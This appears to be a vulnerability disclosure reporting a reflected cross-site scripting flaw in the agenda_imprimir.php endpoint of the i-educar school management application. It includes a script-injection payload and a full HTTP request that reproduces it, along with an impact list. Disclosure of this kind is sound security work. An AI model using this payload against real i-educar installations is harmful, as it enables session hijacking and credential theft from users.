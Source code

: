 Cross-Site Scripting (XSS) Reflected endpoint `agenda_imprimir.php` in multiples parameters

---

## Summary

A Reflected Cross-Site Scripting (XSS) vulnerability was identified in the `agenda_imprimir.php` endpoint of the _i-educar_ application. This vulnerability allows attackers to inject malicious scripts into the `tipoacao, data_inicio and data_fim` parameters. The payload is reflected in the application’s HTTP response without proper sanitization, leading to immediate execution in the victim’s browser.

---

## Details

**Vulnerable Endpoint:** `GET /agenda_imprimir.php`  
**Parameter:** `tipoacao, data_inicio and data_fim`

The application fails to properly validate and sanitize user input in the `tipoacao` parameter. An attacker can craft a malicious URL containing a JavaScript payload, which is reflected back in the server’s response and executed when a victim accesses the crafted link.

---

## PoC

**Payload:**

`"><script>alert('XSS-PoC')</script>`

### Steps to Reproduce:

1. Log in to the _i-educar_ application.
    
2. Make a request using Caido similar to the one below.

```
POST /intranet/agenda_imprimir.php?cod_agenda=2 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/intranet/agenda_imprimir.php?cod_agenda=2
Cookie: [PUT NEW COOKIE]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

tipoacao=Novo"><script>alert('XSS-PoC')</script>&data_inicio=02%2F02%2F2025&data_fim=03%2F02%2F2025&impressora=0
```

![[Pasted image 20250816234245.png]]

The result:
![[Pasted image 20250816234414.png]]

the same vulnerability occurs in parameters `data_inicio and data_fim`.

---

## Impact

Reflected XSS vulnerabilities can lead to severe consequences, including:

- **Session hijacking:** Theft of cookies or authentication tokens
    
- **Credential theft:** Capturing sensitive user credentials via injected scripts
    
- **Malware delivery:** Redirecting victims to malicious downloads or exploit pages
    
- **Phishing attacks:** Displaying deceptive forms or content to steal user data
    
- **Reputation damage:** Exploiting trust between the application and its users
    
- **Client-side manipulation:** Altering the application’s content and behavior dynamically


## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)